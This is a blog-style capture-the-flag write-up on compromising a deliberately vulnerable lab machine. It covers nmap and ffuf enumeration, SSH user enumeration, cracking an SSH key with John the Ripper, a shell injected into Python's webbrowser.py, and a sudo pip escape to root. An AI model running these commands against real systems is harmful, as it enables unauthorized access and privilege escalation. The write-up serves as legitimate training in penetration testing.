 ```yaml
---
layout: single
title: Writeup - Penetration Testing Phases:Scanning, Enumeration, and Exploitation
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-10-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/lupinone_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - Penetration Testing
  #- Nmap
  #- ffuf
  #- Metasploit
---
```


This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5
![](/assets/images/vulnhub-lupinone-writeup/lupinone1.png)

## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.
![](/assets/images/vulnhub-lupinone-writeup/lupinone2.png)

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5
This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt
This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js
This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

### Decrypting the Hidden Message
The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash
John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash
The password P@55w0rd! is successfully retrieved.

### Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5
Finding the Flag
Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
Privilege Escalation
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l
A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

nano /usr/lib/python3.9/webbrowser.py
The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Root Access
After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper